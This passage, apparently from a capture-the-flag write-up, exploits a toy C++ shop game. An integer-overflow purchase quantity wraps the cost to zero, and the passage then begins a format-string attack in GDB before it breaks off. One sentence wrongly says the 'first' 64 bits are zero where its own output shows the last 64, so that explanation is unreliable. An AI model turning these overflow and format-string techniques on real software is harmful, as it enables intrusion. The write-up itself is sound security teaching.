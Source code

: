 The program returned a solution of `count = 9223372036854775808`. To see why this solution works, take a look at the following:
```python
>>> 1000000000000000 * 9223372036854775808
9223372036854775808000000000000000
>>> bin(1000000000000000 * 9223372036854775808)
'0b11100011010111111010100100110001101000000000000000000000000000000000000000000000000000000000000000000000000000000'
>>> len(bin(1000000000000000 * 9223372036854775808)[2:])
113
>>> bin(1000000000000000 * 9223372036854775808)[-64:]
'0000000000000000000000000000000000000000000000000000000000000000'
```

Technically, doing `total = 1000000000000000 * 9223372036854775808` returns a value that is much greater than the price. However, when we look at the binary representation of this value, we can see that the value needs 113 bits of storage, and the first 64 bits are all zeros. When we use this value as the quantity, we end up only storing 64 bits of zeros in the program. Using this value lets us buy a shout out from god.

```
3
What would you like to buy? Options are encouragement (cost: 20), shout-out-from-literally-god (cost: 1000000000000000), tool (cost: 100), or cancel
shout-out-from-literally-god
How many would you like to buy? Must be greater than 0
9223372036854775808
Hmmmm
Nihaal
You have done well!
Good job!
Sincerely,
	~God
Current funds: $150
Your options are:
1: Place a bet on a coin flip for a chance to double your money
2: Go mining to earn some money
3: Buy things
4: Quit (Your money will not be saved)
Please enter a number 1-4 to continue...
```

Now we just need to exploit the format string vulnerability that we saw earlier. Using GDB, I set a breakpoint at the location where the format string vulnerability occurred, and I printed out the address of the value that I wanted to change.

```
Breakpoint 1, purchase () at text-game.cpp:164
164         printf(name.c_str());
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x6
$rbx   : 0x00007fffffffdb40  →  0x00007fffffffdb50  →  0x000000006c6f6f74 ("tool"?)
$rcx   : 0x00007ffff7cc51e7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffda70  →  0xff00ffffffffffff
$rbp   : 0x00007fffffffdd70  →  0x00007fffffffddd0  →  0x0000000000000000
$rsi   : 0x0000555555570eb0  →  "Hmmmm\nny would you like to buy? Must be greater t[...]"
$rdi   : 0x00007ffff7da24c0  →  0x0000000000000000
$rip   : 0x0000555555557569  →  <purchase()+1545> lea rdi, [rip+0x6d30]        # 0x55555555e2a0 <_Z4nameB5cxx11>
$r8    : 0x6
$r9    : 0x00007ffff7d9f240  →  0x0000000000000008
$r10   : 0x00007ffff7e1d499  →  "_ZNKSt7num_getIcSt19istreambuf_iteratorIcSt11char_[...]"
$r11   : 0x246
```
